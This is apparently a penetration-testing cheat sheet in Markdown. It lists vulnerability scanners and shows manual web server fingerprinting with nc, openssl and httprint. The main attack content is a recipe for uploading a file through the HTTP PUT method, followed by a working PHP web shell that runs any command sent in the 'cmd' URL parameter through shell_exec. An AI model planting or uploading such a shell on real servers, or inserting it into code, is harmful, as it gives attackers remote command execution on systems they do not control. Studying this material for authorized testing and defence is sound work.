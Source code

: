 - OpenVAS
- Nexpose
- GFI LAN Guard
- Nessus

List of various vuln scans:
https://sectools.org/tag/vuln-scanners/


# Web Scan

## MANUAL FINGERPRINT
```bash
nc <target> 80
HEAD / HTTP/1.0
<space>
<space>
```

For https use openssl:
```bash
openssl s_client -connect <target>:443
HEAD / HTTP/1.0
```

```bash
httprint -P0 -h <target> -s <signature file>
-P0 - to avoid pinging the host
-h - target hosts
```

HTTP VERBS
PUT

to count in bytes how long your payload is:
```bash
wc -m payload.php
```

```bash
nc <target site> 80
PUT /payload.php hTTP/1.0
Content-Type: text/html
Content-lenght: 136 > value that we get with wc -m <payload>
```

```php
<?php phpinfo(); ?>
```

PHP shell code: to use with PUT method:
```php

<?php
if (isset($_GET['cmd']))
{
  $cmd = $_GET['cmd'];
  echo '<pre>';
  $result = shell_exec($cmd);
  echo $result;
  echo '</pre>';
}
?>
```
